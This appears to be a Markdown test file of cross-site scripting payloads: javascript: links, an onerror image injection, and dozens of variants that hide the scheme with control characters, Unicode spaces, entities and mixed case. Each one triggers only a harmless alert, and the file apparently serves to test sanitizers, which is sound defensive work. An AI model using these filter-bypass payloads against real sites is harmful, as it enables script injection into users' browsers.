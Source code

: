 [Click me](javascript:alert('XSS'))

[Click me](java%0Ascript:alert("XSS"))

<javascript:alert("XSS")>

![Inline image](data:image/gif;base64,R0lGODlhEAAQAMQAAORHHOVSKudfOulrSOp3WOyDZu6QdvCchPGolfO0o/XBs/fNwfjZ0frl3/zy7////wAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAACH5BAkAABAALAAAAAAQABAAAAVVICSOZGlCQAosJ6mu7fiyZeKqNKToQGDsM8hBADgUXoGAiqhSvp5QAnQKGIgUhwFUYLCVDFCrKUE1lBavAViFIDlTImbKC5Gm2hB0SlBCBMQiB0UjIQA7)

![Inline image](xx" onerror="javascript:alert(1))

<javas\x00cript:javascript:alert(1)>

<javas\x01cript:javascript:alert(1)>

<javas\x02cript:javascript:alert(1)>

<javas\x03cript:javascript:alert(1)>

<javas\x04cript:javascript:alert(1)>

<javas\x05cript:javascript:alert(1)>

<javas\x06cript:javascript:alert(1)>

<javas\x07cript:javascript:alert(1)>

<javas\x08cript:javascript:alert(1)>

javas\x09cript:javascript:alert(1)>

<javas\x0Acript:javascript:alert(1)>

<javas\x0Bcript:javascript:alert(1)>

<javas\x0Ccript:javascript:alert(1)>

<javas\x0Dcript:javascript:alert(1)>

<javascript\x3Ajavascript:alert(1)>

<\x0Bjavascript:javascript:alert(1)>

<\x0Fjavascript:javascript:alert(1)>

<\xC2\xA0javascript:javascript:alert(1)>

<\x05javascript:javascript:alert(1)>

<\xE1\xA0\x8Ejavascript:javascript:alert(1)>

<\x18javascript:javascript:alert(1)>

<\x11javascript:javascript:alert(1)>

<\xE2\x80\x88javascript:javascript:alert(1)>

<\xE2\x80\x89javascript:javascript:alert(1)>

<\xE2\x80\x80javascript:javascript:alert(1)>

<\x17javascript:javascript:alert(1)>

<\x03javascript:javascript:alert(1)>

<\x0Ejavascript:javascript:alert(1)>

<\x1Ajavascript:javascript:alert(1)>

<\x00javascript:javascript:alert(1)>

<\x10javascript:javascript:alert(1)>

<\xE2\x80\x82javascript:javascript:alert(1)>

<\x20javascript:javascript:alert(1)>

<\x13javascript:javascript:alert(1)>

<\x09javascript:javascript:alert(1)>

<\xE2\x80\x8Ajavascript:javascript:alert(1)>

<\x14javascript:javascript:alert(1)>

<\x19javascript:javascript:alert(1)>

<\xE2\x80\xAFjavascript:javascript:alert(1)>

<\x1Fjavascript:javascript:alert(1)>

<\xE2\x80\x81javascript:javascript:alert(1)>

<\x1Djavascript:javascript:alert(1)>

<\xE2\x80\x87javascript:javascript:alert(1)>

<\x07javascript:javascript:alert(1)>

<\xE1\x9A\x80javascript:javascript:alert(1)>

<\xE2\x80\x83javascript:javascript:alert(1)>

<\x04javascript:javascript:alert(1)>

<\x01javascript:javascript:alert(1)>

<\x08javascript:javascript:alert(1)>

<\xE2\x80\x84javascript:javascript:alert(1)>

<\xE2\x80\x86javascript:javascript:alert(1)>

<\xE3\x80\x80javascript:javascript:alert(1)>

<\x12javascript:javascript:alert(1)>

<\x0Djavascript:javascript:alert(1)>

<\x0Ajavascript:javascript:alert(1)>

<\x0Cjavascript:javascript:alert(1)>

<\x15javascript:javascript:alert(1)>

<\xE2\x80\xA8javascript:javascript:alert(1)>

<\x16javascript:javascript:alert(1)>

<\x02javascript:javascript:alert(1)>

<\x1Bjavascript:javascript:alert(1)>

<\x06javascript:javascript:alert(1)>

<\xE2\x80\xA9javascript:javascript:alert(1)>

<\xE2\x80\x85javascript:javascript:alert(1)>

<\x1Ejavascript:javascript:alert(1)>

<\xE2\x81\x9Fjavascript:javascript:alert(1)>

<\x1Cjavascript:javascript:alert(1)>

<javascript\x00:javascript:alert(1)>

<javascript\x3A:javascript:alert(1)>

<javascript\x09:javascript:alert(1)>

<javascript\x0D:javascript:alert(1)>

<javascript\x0A:javascript:alert(1)>

<java&#1&#2&#3&#4&#5&#6&#7&#8&#11&#12script:javascript:alert(1)>

<jav&#65ascript:javascript:alert(1)>

<jav&#97ascript:javascript:alert(1)>

<jAvAsCrIpT:alert(1)>

[XSS](javascript:alert%28&#039;XSS&#039;%29)

[XSS](javascript&colon;alert%28&#039;XSS&#039;%29)

[XSS](javascript&amp;colon;alert%28&#039;XSS&#039;%29)